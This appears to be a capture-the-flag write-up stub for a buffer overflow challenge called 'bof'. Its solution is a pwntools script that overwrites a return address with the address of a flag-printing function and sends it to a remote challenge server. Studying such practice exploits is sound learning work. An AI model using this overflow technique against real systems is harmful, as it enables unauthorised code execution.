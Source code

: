 #### Goals
 * Get the flag

#### Solution
```python
#!/usr/bin/env python

from pwn import *

# Io = process("./bof")
Io = remote("www.sniperoj.cn", 30000)
cat_flag_addr = p64(0x0000000000400616)
payload = cat_flag_addr * 4
Io.send(payload)
Io.interactive()
```

#### Writeups
 * [Offical Writeup]()
 * [Other Writeup]()

